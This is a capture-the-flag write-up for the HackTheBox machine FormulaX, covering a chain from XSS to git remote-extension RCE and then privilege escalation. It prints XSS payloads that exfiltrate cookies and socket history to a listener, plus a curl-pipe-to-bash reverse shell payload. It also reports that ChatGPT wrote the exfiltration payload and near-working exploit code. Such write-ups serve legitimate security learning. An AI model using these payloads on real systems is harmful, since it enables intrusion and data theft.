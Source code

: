 ```yaml
---
title: HTB Hard Box just requires perseverance (and ChatGPT's help) - Writeup for HTB's FormulaX
date: '2024-06-26'
tags: ['writeups', 'HTB', 'web', 'privesc']
draft: false
summary: XSS -> Secret subdomain -> Simple-Git RCE to foothold -> MongoDB cred for user flag -> Librenms shell to leak creds for lateral movement -> LibreOffice Calc RCE to root
---
```


Difficulty: Hard

## Enumeration
My go-to enumeration for a standard Linux box is **dirsearch** + **rustscan** + **nmap** + **ffuf (subdomain)**. I'll go to the web interface and check **Wappalyzer**, **retire.js** and some other extensions. I made the enumeration a bit faster with this script, viewing everything in 4 panes

```
#!/bin/bash

# Function to display usage
usage() {
  echo "Quick tedious recon for HackTheBox boxes"
  echo "Usage: $0 <IP_ADDRESS> <BASE_DOMAIN>"
  exit 1
}

# Check if the correct number of arguments are provided
if [ "$#" -ne 2 ]; then
  usage
fi

IP_ADDRESS=$1
BASE_DOMAIN=$2

# Validate IP Address format
if ! [[ $IP_ADDRESS =~ ^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$ ]]; then
  echo "Invalid IP address format."
  usage
fi

# Validate Base Domain format (basic validation)
if ! [[ $BASE_DOMAIN =~ ^[a-zA-Z0-9.-]+$ ]]; then
  echo "Invalid base domain format."
  usage
fi

# Output the provided inputs
echo "IP Address: $IP_ADDRESS"
echo "Base Domain: $BASE_DOMAIN"

tmux new -s '2x2 panes' \; \
  split-window -h \; \
  split-window -v \; \
  select-pane -t 0 \; \
  split-window -v \; \
  send-keys -t 0 "sleep 5;dirsearch -u http://$BASE_DOMAIN; dirsearch -u http://$BASE_DOMAIN -m POST; dirsearch -u http://$IP_ADDRESS; dirsearch -u http://$IP_ADDRESS -m POST" C-m \; \
  send-keys -t 1 "sleep 5;rustscan -a $IP_ADDRESS -r 1-65535 --ulimit 5000" C-m \; \
  send-keys -t 2 "sleep 5;nmap -A $IP_ADDRESS" C-m \; \
  send-keys -t 3 "sleep 5;size=\$(curl -s http://$IP_ADDRESS -L | wc -c) && ffuf -u http://$IP_ADDRESS -H 'Host: FUZZ.$BASE_DOMAIN' -w /home/vinh/important/vhost_lite.txt -r -fs \${size}" C-m \; \
  attach

```

So there's *login*, *logout*, *register* and all sort, but the strange thing is that everything that starts with **/admin** returns a 200. I went to check and confirmed that it's a false positive returning a message like this:

```
{"Status":"Failed","Message":"No token found"}
```

Well fine, I just registered a user to check other functionality. There's a javascript file handling redirection, which checks whether a parameter returned by the server is "loggedin" or "admin". I tried intercepting it, but the redirection still failed, which means there were server-side checks as well.

The page for regular users consists of 2 functionalities: a chatbot interface implemented with a socket.js doing web socket stuff, made me think of CSRF for a bit. Not that vulnerability in particular, but the js file would be utilized in later parts. The chatbot only has 1 userful command "history" where it replays all the previous commands. The other one is a "contact_us" form, which you can send some stuff to the admin. XSS?

## XSS
Quickly put up a listener and try to see if I can get a POC XSS. This is my first payload:
```
<img src=x onerror="fetch('http://10.10.XX.XX:8888?cookie=' + document.cookie)">
```

which received:
```
::ffff:10.10.11.6 - - [25/Jun/2024 10:03:33] code 501, message Unsupported method ('OPTIONS')
::ffff:10.10.11.6 - - [25/Jun/2024 10:03:33] "OPTIONS /?cookie= HTTP/1.1" 501 -
```

So XSS works but no cookie exfiltrated? I guessed that it could be 1 of 2 reasons: HttpOnly cookies or there's no cookie (more unlikely).
I decided to spend my GPT-4o daily limit wisely and ask the LLM how to proceed. Surprisingly it suggested a useful option: Leaking the DOM and proceed. 

Replaced document.cookie with "encodeURIComponent(document.documentElement.innerHTML)" to get the page, and indeed it's an admin page. After using the same payload to get "./admin.js" and other stuff, I remembered that there's this "history" command. Maybe I can leak something? Thus I provided ChatGPT with the context about the history command, script that normal users used, and it gave me this final payload:

```
<img src="x" onerror="
(function() {
    // Create a new WebSocket connection using the same URL as the original script
    const socket = io('/', { withCredentials: true });
    
    // Listen for messages from the server
    socket.on('message', (my_message) => {
        // Send the received message to the attacker's server
        fetch('http://10.10.XX.XX:8888?message=' + encodeURIComponent(my_message));
    });

    // Send the 'history' message to the server
    socket.emit('client_message', 'history');
})();
">
```

Decoding stuff leaks the existence of a secret subdomain: "dev-git-auto-update.chatbot.htb". At the bottom I saw "simple-git v3.14". CVE time gave me a known git exploit that I've done in a seasonal box not long before. When the git wrapper allowed all [remote extension](https://git-scm.com/docs/git-remote-ext), one can easily used it for RCE. I setup a bash reverse shell script on my server, and used this payload for the git RCE:
```
ext::sh -c curl% [MYSERVER]/[REVERSE-SHELL]|bash%
```

And I got www-data.

### Note: Web exploit is done from here so I'll just go brief and mentioned mosty tips and tricks

## User 1
Typical HTB style is to check the web source code for database connections, connect to that DB, get the hash, crack it and get user. Did just that LMAO. It's a MongoDB server so I had to checkup the CLI documentation a bit, but getting and cracking the bcrypt hash was easy.

## LibreNMS to User 2
On port 3000 is this [LibreNMS network monitoring stuff](https://www.librenms.org/). I port-forwarded that to localhost to see the website. No default creds work to login, but I found a way to create new admin user via a script. [W forum](https://community.librenms.org/t/adding-admin-users-on-librenms/20782). Ofcourse I'm going with **b01lers b01lers**. OK and then I don't know why this Libremns has a template that can do RCE. It's Laravel Blade so I just searched up the syntax a bit. Not much needed, just get system() to run LMAO. This user provides creds for another user.

## Final privilege escalation to root. 
It's just this [CVE Unathenticated RCE on LibreOffice](https://www.exploit-db.com/exploits/46544). Fun thing is that when I asked chatGPT about it, it actually spitted out some exploit code that is almost correct. Wonder what isn't fed into this thing.

## Final thought
Took me a whole day to crack this box. Very exhausting, but good stuff are learned along the way!




